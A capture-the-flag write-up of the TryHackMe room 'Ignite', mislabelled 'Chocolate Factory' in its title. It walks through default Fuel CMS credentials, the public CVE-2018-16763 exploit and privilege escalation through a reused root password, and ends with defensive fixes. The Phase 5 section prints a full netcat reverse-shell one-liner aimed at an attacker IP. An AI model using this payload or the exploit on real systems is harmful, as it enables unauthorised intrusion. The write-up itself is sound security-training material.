# Chocolate Factory Writeup

**Machine Name:** Ignite  
**Platform:** TryHackMe  
**Difficulty:** Easy

---

## Introduction

This write-up covers Ignite, an easy-difficulty TryHackMe room built around a single vulnerable service: Fuel CMS. The room's own description undersells it a little "a new start-up has a few issues with their web server" because by the end, that one web server hands over almost everything on its own: its file paths, its admin password, and eventually root. 

There's no long chain of exploits here and no moving between low-privilege users. It's closer to a single point of failure. The CMS's own post-install page that keeps paying off at every later stage. Enumerate it once, and half the room is already solved.

## Phase 1: Enumeration

Started with a full TCP port scan against the target. 

> nmap -p- -sV -sC <TARGET_IP>

Only one port came back open:



Nmap's banner grab also pulled the page title (Welcome to FUEL CMS) and flagged a robots.txt with a single disallowed entry: /fuel/. Two lines of scan output, and the CMS name and its admin path were sitting right there on my screen.

.jpg>)

.jpg>)

.jpg>)

.jpg>)

## Phase 2: A Landing Page That Gives Too Much Away

Loading the site in a browser didn't show a homepage or a blog. It showed FUEL CMS's own postinstallation "Getting Started" guide. The kind of page a CMS displays to a developer right after setup, meant to be taken down long before the site goes live. Here, it hadn't been. The page walked through every remaining install step: which folders needed to be writable, where the config files lived ( fuel/application/config/ ), and, right at the bottom under a cheerful "That's it!", the exact admin panel URL along with its default login.



> **Security Issue #1:** Default Install Page Left Live in Production. A CMS's setup guide is meant for the installer's eyes during deployment, not for anyone who visits the site afterward. Leaving it reachable handed over the admin URL, the default credentials, and the server's internal folder layout before a single request even reached the login form.

## Phase 3: Confirming the Path and Logging In

A directory scan against the site root confirmed what robots.txt and the landing page pointed to /fuel/ was real, alongside a stray composer.json and a couple of other build files.

.jpg>)
.jpg>)

Browsing to the admin path dropped me on a standard FUEL CMS sign-in form.



I tried the credentials from the install page (admin/admin) and logged straight into the dashboard: Pages, Blocks, Navigation, Assets, Users, Permissions, Page Cache. Full administrative access, no brute forcing required.



> **Security Issue #2:** Default Admin Credentials Never Changed. The install page itself warns that this password "can and should" be changed after the first login. Nobody had. An account with full administrative rights shouldn't still be sitting on its factory password once a site is live.

## Phase 4: Remote Code Execution via a Known CVE

The dashboard didn't offer an obvious upload feature or command runner, and most of the content pages came up empty. But the install page had given away the exact version (FUEL CMS 1.4) and a version number is sometimes worth more than a working exploit on its own.

A search turned up a public Exploit-DB entry: EDB-ID 47138, targeting CVE-2018-16763 in FUEL
CMS 1.4.1. A SQL injection in the admin search filter that gets chained into PHP's eval() for full code execution, no authentication needed.



I pulled the script, pointed its url variable at the target's
root instead of the /fuel subpath the original PoC used, and ran it.



> **Security Issue #3:** Outdated CMS With an Unpatched Public Exploit. CVE-2018-16763 hadbeen public for years by the time this install was still running the vulnerable version. A documented CVE, a working public proof of concept, and no patch left in place is about as low-effort as remote code execution gets for an attacker.

## Phase 5: Reverse Shell and the First Flag

The exploit's cmd prompt worked, but it wasn't an interactive shell. I generated a one-liner reverse shell payload and fired it through the same prompt:



> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> > /tmp/f

With a listener already running, the callback landed a few seconds later. A proper interactive shell as www-data.



### First flag

From there, /home/www-data/flag.txt gave up the first flag.



## Phase 6: Privilege Escalation

The install page had spelled out exactly where the config files lived, so that's the first place I checked. fuel/application/config/database.php held the CMS's live database connection
details in plain text, including a username and password for the default connection, and the
username on that entry was root.



That felt like more than a coincidence, so I tried logging in as the actual system user with the same password from the config file.



It worked. The password wasn't just protecting a MySQL account, it was also the root user's login for the box itself.

> **Security Issue #4:** Database Password Reused as the Root System Password. Whoever configured this box reused a single password across two completely different accounts: a MySQL user and the Linux root account. Reading one plaintext config file was enough to compromise both

## Flag 2

whoami confirmed it: root . /root/root.txt was sitting there waiting, and the second flag
closed the room out.



## Blue Team Perspective

Working back through this chain, here's what I think a defensive team would have caught, and
where.

### 1. Default Install Page Exposed the Admin Panel.

A "Getting Started" page reachable on a production site is an easy automated finding for any web-app scanner or content-discovery tool. Fix: removing setup/install pages should be a mandatory, checked step in the deployment process, not an optional cleanup task left to memory.

### 2. Default Credentials With No Enforcement.

A successful login with admin / admin should trip an alert on its own, and the application shouldn't let that account stay active indefinitely. Fix: force a password change on first login, and flag any admin account still running on default credentials during routine access reviews.

### 3. Unpatched Software With a Known CVE.

Vulnerability scanning against the exposed version string visible right on the install page would have caught this before an attacker did. Fix: tie patch management to a CVE feed,especially for internet-facing CMS installs.

### 4. Password Reuse Across Systems.

One leaked config file shouldn't be able to compromise both a database account and the OS root account. Fix: unique credentials per system, a real secrets manager instead of plaintext config values, and rotate any password found reused like this immediately.



This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you’re also on the journey toward a SOC or Security Engineering role, feel free to connect — I’m always happy to discuss techniques and share resources.
